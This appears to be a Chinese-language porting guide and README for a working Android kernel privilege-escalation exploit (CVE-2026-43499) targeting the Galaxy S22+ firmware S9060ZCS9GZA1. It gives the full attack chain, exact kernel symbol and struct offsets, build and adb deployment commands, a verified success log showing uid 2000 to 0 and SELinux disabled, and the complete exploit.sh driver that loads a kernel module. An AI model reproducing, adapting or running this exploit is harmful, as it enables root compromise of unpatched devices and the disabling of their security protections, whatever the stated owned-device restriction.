

# S9060ZCS9GZA1 移植与攻击链说明

> 项目：`IonStack-S22U`（Galaxy S22 系列 CVE-2026-43499 移植）
> 状态：✅ 已实机验证（uid=2000→0 + KernelSU-Next LKM）

## 1. 目标设备与内核

| 项 | 值 |
|---|---|
| 设备 | Galaxy S22+ 国行（SM-S9060） |
| Codename | `g0q` |
| SoC | Snapdragon 8 Gen 1（SM8450 / taro） |
| Android | 16，CHC |
| 内核 | 5.10.236-android12-9-2755199-abS9060ZCS9GZA1 |
| `_text` | `0xffffffc008000000` |
| Fingerprint | `samsung/g0qzcx/g0q:16/BP4A.251205.006/S9060ZCS9GZA1:user/release-keys` |

## 2. 移植来源与对比

- **基座项目**：`IonStack-S22U`（b0q = S908W 美版，exp32 路由已跑通）。
- **同 SoC 兄弟参考**：`F9360-CVE43499`（q4q = Galaxy Z Fold4，SM-F9360）。
  g0q 与 q4q 的 `5.10.236-android12-9-2755199` 内核在 futex / rtmutex / sched /
  select 等路由关键代码上字节级一致。
- **偏移来源**：反编译本机 S9060ZCS9GZA1 内核（`vmlinux-to-elf` 符号表）重新导出。

### 与 b0q（S908W 基座）的对比

| 对比项 | b0q（S908W） | g0q（S9060ZCS9GZA1） |
|---|---|---|
| 路由 | exp32（compat setsockopt 栈戳） | 相同 |
| `EXP32_STAMP_OFF` | `0x58` | `0x58`（与 b0q/q4q 相同） |
| 结构体偏移 | 全部相同 | 全部相同（futex/rtmutex/sched/select 字节级一致） |
| `P0_KERNEL_PHYS_LOAD` | `0xa8000000`（SM8450 全系约定） | `0xa8000000` |
| KASLR slide | 64 KB 对齐，范围 `[0, 0x1f0000]` | 相同，实测 slide `0x130000` |
| 符号偏移 | b0q 符号表 | **S9060ZCS9GZA1 符号表重导** |

### KernelSnitch 扫描范围差异（重要）

b0q 默认扫描整个 64 GB direct map，但 S9060 实际 System RAM 最高仅
`0x97fffffff`（约 40 GB）。本 target 把 `KERNELSNITCH_IDENTITY_END` 从
`0xffffff9000000000` 收窄到 `0xffffff8980000000`（40 GB），扫描量下降 37.5%，
无风险。

## 3. 攻击链



1. **tracefs KASLR 探测**：`SLIDE_TRACEFS_EVENT_ID=84`，恢复 64 KB 对齐的 slide。
2. **KernelSnitch**：mm_struct 碰撞 + spray（direct map 40 GB 范围）。
3. **exp32 栈戳**：嵌入式 32 位子进程（`cve-exp32`）跑 futex choreography +
   32 位栈戳 + `sched_setattr`，栈戳偏移 `EXP32_STAMP_OFF=0x58`。
4. **ashmem FOPS + pipe physrw**：patch 全局 `ashmem_misc.fops` 建立任意读写，
   建立后立即恢复原指针。
5. **伪造 workqueue work item**：注入 `system_unbound_wq` →
   `call_usermodehelper_exec_work` 以 uid=0 启动 `/data/local/tmp/cve-2026-43499-root`。
6. **root socket**：daemon 提供 `-c` 命令通道。
7. **KernelSU-Next LKM**：`insmod kernelsu-android12-5.10.ko` 实现持久授权。

## 4. 移植关键偏移（S9060ZCS9GZA1）

> 完整定义见 `IonStack-S22U/src/targets/S9060ZCS9GZA1/target.h`。

**内核镜像布局**

| 宏 | 值 |
|---|---|
| `KIMAGE_TEXT_BASE` | `0xffffffc008000000` |
| `P0_PAGE_OFFSET` | `0xffffff8000000000` |
| `P0_PHYS_OFFSET` | `0x80000000` |
| `P0_KERNEL_PHYS_LOAD` | `0xa8000000` |
| `KERNELSNITCH_IDENTITY_END` | `0xffffff8980000000`（40 GB） |
| `MM_STRUCT_SZ` | `960` |
| `MM_CPU_PARTIAL` | `13` |
| `KSNITCH_COLLISIONS` | `6` |

**task_struct / rt_mutex_waiter（v5.10）**

| 字段 | 偏移 |
|---|---|
| `task.usage` | `0x40` |
| `task.prio` | `0x84` |
| `task.normal_prio` | `0x8c` |
| `task.sched_task_group` | `0x310` |
| `task.pi_lock` | `0x86c` |
| `task.pi_waiters` | `0x880` |
| `task.pi_top_task` | `0x890` |
| `task.pi_blocked_on` | `0x898` |
| `waiter.task` | `0x30` |
| `waiter.lock` | `0x38` |
| `waiter.wake_state` | `0x60` |
| `waiter.ww_ctx` | `0x68` |

**关键符号偏移（相对 `_text`）**

| 符号 | 偏移 |
|---|---|
| `ashmem_ioctl` | `0x0114a614` |
| `ashmem_mmap` | `0x0114b138` |
| `configfs_read_file` | `0x006040d8` |
| `generic_file_splice_read` | `0x0053866c` |
| `call_usermodehelper_exec_work` | `0x001086b4` |
| `system_unbound_wq` | `0x02589e08` |
| `selinux_state.enforcing` | `0x028cdcd8` |
| `kmalloc_caches` | `0x020c3560` |
| `anon_pipe_buf_ops` | `0x01f03fe8` |

**exp32 阶段特殊处理**：`targets/S9060ZCS9GZA1/exp32/tls_align.S` 强制合并
`.tdata` 段（PT_TLS 的 `p_align`）对齐到 32 字节，否则 Bionic 加载器会以
"executable's TLS segment is underaligned ... for ARM Bionic" 拒绝启动 exp32
子进程（SIGABRT）。

## 5. 构建

```bash
make PROJECT=S9060ZCS9GZA1 clean preload root-helper
```

产物：

```text
cve-2026-43499        # exploit LD_PRELOAD 库（脚本中为 cve.so）
cve-2026-43499-root  # root 命令守护进程
cve-exp32            # 32 位栈戳阶段
```

## 6. 部署与提权命令（已实机验证）

核心命令见 `IonStack-S22U/exploit.sh`。

```bash
# 1. 推送文件
adb push cve-2026-43499 /data/local/tmp/cve.so
adb push cve-2026-43499-root /data/local/tmp/cve-2026-43499-root
adb push cve-exp32 /data/local/tmp/cve-exp32
adb push kernelsu-android12-5.10.ko /data/local/tmp/kernelsu-android12-5.10.ko
adb shell chmod 644 /data/local/tmp/cve.so /data/local/tmp/kernelsu-android12-5.10.ko
adb shell chmod 755 /data/local/tmp/cve-2026-43499-root /data/local/tmp/cve-exp32

# 2. 触发 exploit（exploit.sh 的核心命令；supervisor 自动重试 16 次）
adb shell "LD_PRELOAD=/data/local/tmp/cve.so /system/bin/true"
# 或走脚本（会自动 insmod 内核模块 + 校验负载 < 2.5）
adb shell sh /data/local/tmp/exploit.sh

# 3. 验证 root
adb shell "/data/local/tmp/cve-2026-43499-root -c id"
# → uid=0(root) gid=0(root) context=u:r:kernel:s0

# 4. 内核模块由 exploit.sh 自动加载，也可手动：
adb shell "/data/local/tmp/cve-2026-43499-root -c 'insmod /data/local/tmp/kernelsu-android12-5.10.ko'"
```

成功标志：`uid=2000->0`、`cfi write/read ret=35`、`rw64=1/1`、
`/proc/modules` 中出现 `kernelsu`。

## 6.1 实机验证输出

```text
[*] === CVE-2026-43499 Jailbreak ===
[*] permission ok: /data/local/tmp/cve.so (0644)
[*] permission ok: /data/local/tmp/cve-2026-43499-root (0755)
[*] permission ok: /data/local/tmp/cve-exp32 (0755)
[*] permission ok: /data/local/tmp/kernelsu-android12-5.10.ko (0644)
[!] load 10.89 >= 2.5, retry in 60s (1/10)
[!] load 5.58 >= 2.5, retry in 60s (2/10)
[!] load 3.46 >= 2.5, retry in 60s (3/10)
[!] load 2.66 >= 2.5, retry in 60s (4/10)
[!] load 2.61 >= 2.5, retry in 60s (5/10)
[*] load 2.26 < 2.5, exploit condition met
[*] running exploit (up to 16 attempts by default, keep device idle)...
[+] preload supervisor pid=11879 attempts=16 base_delay=20000
[+] exploit attempt=1/16 pid=11880 delay=20000
[+] startup context pid=11880 uid=2000 euid=2000 gid=2000 egid=2000 attr=u:r:shell:s0 enforce=1
[+] startup limits pid=11880 NoNewPrivs=0 Seccomp=0 Seccomp_filters=0
[+] build config pid=11880 label=S9060ZCS9GZA1 slide=pselect main=exp32
[+] p0 profile pid=11880 phys_offset=0000000080000000 kernel_phys_load=00000000a8000000 delta=0000000028000000 slide_logger=ffffff802a591348 bootid_data=ffffff802a6acb50 init_task=ffffff802a59c000 root_tg=ffffff802a79c040 sysctl_bootid=ffffff802a96dd45
[+] slide tracefs caller=ffffffc008242ae0 candidate=0000000000130000
[+] slide-kaslr-ok source=tracefs pid=11880 base=ffffffc008130000 slide=0000000000130000 p0_offset=00130000
[*] mm leaked=ffffff88479a7bc0 base=ffffff88479a0000 object_index=33
[*] mm skb reclaim sends=24/24 (pairs=8 hold)
[*] exp32 payload fake_fops=ffffff88479a0180 fake_lock=ffffff88479a04d0 write_target=ffffffc00a81cce8
[*] install_embedded_exp32: /data/local/tmp/cve-exp32 (1732968 bytes)
[*] CVE-2026-43499 32-bit ARM stage (b0q) pid=17349
[*] waiter: FUTEX_WAIT_REQUEUE_PI on f_wait -> pi_target
[*] main: FUTEX_CMP_REQUEUE_PI on f_wait -> pi_target
[*] consumer: trigger ret=0 errno=22 (cfs-nice)
[*] main: exploit chain complete.
[*] enter CFI stage
[*] cfi write ret=35 errno=0
[*] cfi read ret=35 errno=0
[*] phys step pipe page base=ffffff8890c80000
[*] phys step read64 done ok=1
[*] root direct start uid=2000 fd=3
[*] root umh helper mode=755 uid=2000 gid=2000 x_ok=1
[*] root umh selinux enforcing byte 1 -> 0 (addr=ffffff802a9fdcd8)
[*] root umh result wake=1 complete=1 retval=0 socket=1
[+] pipe-physrw-summary pid=11880 done=1 root=1 kaslr=1 base=ffffffc008130000 slide=0000000000130000
[+] pipe physrw pid=11880 done=1 root=1 kaslr=1 read_ok=1 write_ok=1 rw64=1/1 uid=2000->0
[+] stability keeper pid=28297 retaining reclaimed kernel pages
[+] exploit completed attempt=1/16
[*] exploit succeeded
[*] root daemon ready: uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
[*] loading kernel module: /data/local/tmp/kernelsu-android12-5.10.ko
[*] module loaded: kernelsu 335872 0 - Live 0x0000000000000000 (O)
[*] done
```

## 7. KernelSU-Next（持久授权）

1. 安装 Manager APK：`KernelSU_Next_v3.3.0-release.apk`。
2. 通过 root 通道 `insmod kernelsu-android12-5.10.ko`。
3. 打开 KernelSU Next 应用，检测到模块后提供 superuser 管理、模块/Zygisk
   支持与 `ksud soft-reboot`。

> late-load 的 LKM 不落盘，重启后需重新跑 exploit + 重新 insmod。

## 8. 风险（必读）

- 竞态阶段时序敏感，可能失败或触发 kernel panic，干净 boot 成功率更高。
- 建议：重启清 slab → 关闭后台应用 → 解锁屏幕并保持 idle。
- 不要接受 OTA：新内核需重新移植，且可能修补该 CVE。
- **仅限自己拥有的设备**。

## 9. 附：exploit.sh 完整代码

```bash
#!/system/bin/sh
#
# CVE-2026-43499 Jailbreak + kernel module load
#
# Requirement: 1-minute load average (loadavg[0]) < 2.5.
#
# Usage (device-side, sh only):
#   adb push exploit.sh /data/local/tmp/exploit.sh
#   adb shell sh /data/local/tmp/exploit.sh
#
# Required files (paths overridable via env):
#   cve.so                      exploit LD_PRELOAD library
#   cve-2026-43499-root         root command daemon (spawned by kernel umh with --umh)
#   cve-exp32 / cve-exp64       exploit stage (auto-detected, override via EXP)
#   kernelsu-android12-5.10.ko  kernel module to insmod
#
# Tip: reboot first, close background apps, keep the screen unlocked and idle.
# Use only on devices you own or are explicitly authorized to test.

EXPLOIT=${EXPLOIT:-/data/local/tmp/cve.so}
ROOT_HELPER=${ROOT_HELPER:-/data/local/tmp/cve-2026-43499-root}
EXP=${EXP:-}
KSU_MODULE=${KSU_MODULE:-/data/local/tmp/kernelsu-android12-5.10.ko}

if [ -z "$EXP" ]; then
    expdir=${EXPLOIT%/*}
    if [ -f "$expdir/cve-exp32" ]; then
        EXP=$expdir/cve-exp32
    elif [ -f "$expdir/cve-exp64" ]; then
        EXP=$expdir/cve-exp64
    else
        EXP=$expdir/cve-exp32
    fi
fi

LOAD_LIMIT=${LOAD_LIMIT:-2.5}
LOAD_MAX_WAIT=${LOAD_MAX_WAIT:-10}
LOAD_INTERVAL=${LOAD_INTERVAL:-60}
ROOT_READY_TRIES=${ROOT_READY_TRIES:-20}
MODULE_READY_TRIES=${MODULE_READY_TRIES:-10}

log() { echo "[*] $*"; }
err() { echo "[!] $*" >&2; }

die() {
    err "$*"
    exit 1
}

ensure_mode() {
    f=$1
    want=${2:-755}
    mode=$(stat -c %a "$f" 2>/dev/null)
    if [ "$mode" = "$want" ]; then
        log "permission ok: ${f} (0${want})"
        return 0
    fi
    log "fixing permission for ${f}: ${mode:-missing} -> 0${want}"
    if chmod "0$want" "$f" 2>/dev/null; then
        mode=$(stat -c %a "$f" 2>/dev/null)
        if [ "$mode" = "$want" ]; then
            return 0
        fi
    fi
    err "failed to set 0${want} on ${f} (current: ${mode:-unknown})"
    return 1
}

to_tenths() {
    v=$1
    int=${v%.*}
    frac=${v#*.}
    first=${frac%"${frac#?}"}
    echo $(( ${int:-0} * 10 + ${first:-0} ))
}

check_load() {
    if command -v awk >/dev/null 2>&1; then
        awk -v lim="$LOAD_LIMIT" '{ if ($1 < lim) exit 0; exit 1 }' /proc/loadavg
        return $?
    fi
    load=$(cut -d' ' -f1 /proc/loadavg)
    [ "$(to_tenths "$load")" -lt "$(to_tenths "$LOAD_LIMIT")" ]
}

wait_low_load() {
    [ -r /proc/loadavg ] || { err "/proc/loadavg not readable"; return 1; }
    n=0
    while [ "$n" -lt "$LOAD_MAX_WAIT" ]; do
        if check_load; then
            load=$(cut -d' ' -f1 /proc/loadavg)
            log "load ${load} < ${LOAD_LIMIT}, exploit condition met"
            return 0
        fi
        load=$(cut -d' ' -f1 /proc/loadavg)
        err "load ${load} >= ${LOAD_LIMIT}, retry in ${LOAD_INTERVAL}s ($((n + 1))/${LOAD_MAX_WAIT})"
        sleep "$LOAD_INTERVAL"
        n=$((n + 1))
    done
    return 1
}

run_exploit() {
    log "running exploit (up to 16 attempts by default, keep device idle)..."
    LD_PRELOAD="$EXPLOIT" /system/bin/true
    rc=$?
    if [ "$rc" -eq 0 ]; then
        log "exploit succeeded"
        return 0
    fi
    err "exploit failed"
    return 1
}

root_exec() {
    "$ROOT_HELPER" -c "$1" 2>&1
}

wait_root() {
    n=0
    while [ "$n" -lt "$ROOT_READY_TRIES" ]; do
        out=$(root_exec 'id')
        case "$out" in
            *uid=0*)
                log "root daemon ready: ${out}"
                return 0
                ;;
        esac
        n=$((n + 1))
        sleep 1
    done
    return 1
}

load_module() {
    log "loading kernel module: ${KSU_MODULE}"
    out=$(root_exec "insmod ${KSU_MODULE}")
    if [ -n "$out" ]; then
        log "insmod output: ${out}"
    fi
}

wait_module() {
    n=0
    while [ "$n" -lt "$MODULE_READY_TRIES" ]; do
        out=$(grep -i kernelsu /proc/modules 2>/dev/null)
        if [ -n "$out" ]; then
            log "module loaded: ${out}"
            return 0
        fi
        n=$((n + 1))
        sleep 1
    done
    return 1
}

main() {
    log "=== CVE-2026-43499 Jailbreak ==="

    [ -f "$EXPLOIT" ] || die "missing file: ${EXPLOIT} (adb push it first)"
    ensure_mode "$EXPLOIT" 644 || die "cannot ensure 0644 on ${EXPLOIT}"
    for f in "$ROOT_HELPER" "$EXP"; do
        [ -f "$f" ] || die "missing file: ${f} (adb push it first)"
        ensure_mode "$f" 755 || die "cannot ensure 0755 on ${f}"
    done

    [ -f "$KSU_MODULE" ] || die "missing file: ${KSU_MODULE} (adb push it first)"
    ensure_mode "$KSU_MODULE" 644 || die "cannot ensure 0644 on ${KSU_MODULE}"

    wait_low_load || die "load stayed >= ${LOAD_LIMIT}, aborting"

    run_exploit || die "exploit failed (reboot device, close background apps, then retry)"

    wait_root || die "root daemon not ready"

    load_module
    wait_module || die "kernel module not detected after load (no kernelsu in /proc/modules)"

    log "done"
}

main "$@"
```
